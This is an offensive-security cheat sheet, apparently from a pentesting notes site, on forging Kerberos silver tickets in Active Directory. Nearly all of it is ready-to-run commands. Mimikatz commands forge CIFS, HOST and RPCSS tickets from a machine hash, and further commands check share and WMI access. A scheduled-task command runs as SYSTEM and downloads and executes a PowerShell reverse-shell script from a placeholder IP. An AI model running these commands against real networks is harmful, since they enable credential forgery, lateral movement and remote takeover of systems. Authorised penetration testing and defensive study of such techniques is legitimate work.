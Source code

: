 # 🥈 Silver Tickets

### **Make silver ticket for CIFS**

Use the hash of the local computer

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Check access (After CIFS silver ticket)**

```
ls \\<servername>\c$\
```

### **Make silver ticket for Host**

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Schedule and execute a task (After host silver ticket)**

```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

### **Make silver ticket for WMI**

Execute for WMI /service:HOST /service:RPCSS

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

### Sources

{% embed url="https://adsecurity.org/?p=2011" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets" %}
